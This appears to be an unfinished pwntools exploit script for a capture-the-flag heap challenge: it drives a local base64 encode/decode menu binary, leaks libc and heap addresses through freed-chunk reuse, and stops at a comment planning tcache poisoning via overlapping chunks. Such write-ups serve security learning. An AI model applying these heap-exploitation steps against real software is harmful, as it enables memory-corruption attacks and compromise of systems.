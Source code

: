 ### exp
```py
from pwn import *
import base64
p=process("./pwn")
libc = ELF("./libc-2.31.so")
context(log_level="debug", arch="amd64", os="linux")
def decode(content):
    p.recvuntil("Enter your choice: \n")
    p.sendline("2")
    p.recvuntil("Enter the text to decode: \n")
    p.send(content)

def encode(content):
    p.recvuntil("Enter your choice: \n")
    p.sendline("1")
    p.recvuntil("Enter the text to encode: \n")
    p.send(content)

def remove_encode(index):
    p.recvuntil("Enter your choice: \n")
    p.sendline("3")
    p.recvuntil("idx: \n")
    p.sendline(str(index))

def remove_decode(index):
    p.recvuntil("Enter your choice: \n")
    p.sendline("4")
    p.recvuntil("idx: \n")
    p.sendline(str(index))

def show_encode(index):
    p.recvuntil("Enter your choice: \n")
    p.sendline("5")
    p.recvuntil("idx: \n")
    p.sendline(str(index))
    
def show_decode(index):
    p.recvuntil("Enter your choice: \n")
    p.sendline("6")
    p.recvuntil("idx: \n")
    p.sendline(str(index))
    
# leak libc
encode("a"*0x3f0)
encode("c"*0x30)
remove_encode(0)
encode("aaaa")
show_encode(0)
# todo leak heap through unsorted bin with the same method approximately
p.recvuntil("YWFhYQ==")
libc_leak = u64(p.recv(6).ljust(8, b"\x00"))
# 0x00007f9fc77ab020 0x7f9fc75be000
libc_base =  libc_leak - 0x7ab020+0x5be000
print(hex(libc_base))
remove_encode(0)
encode("aaaaaaaaaaaa")
show_encode(0)
p.recvuntil("YWFhYWFhYWFhYWFh")
heap_leak = u64(p.recv(6).ljust(8, b"\x00"))
print(hex(heap_leak))
heap_base = heap_leak - 0x290
# try build chunk overlapping for tcache poisoning
```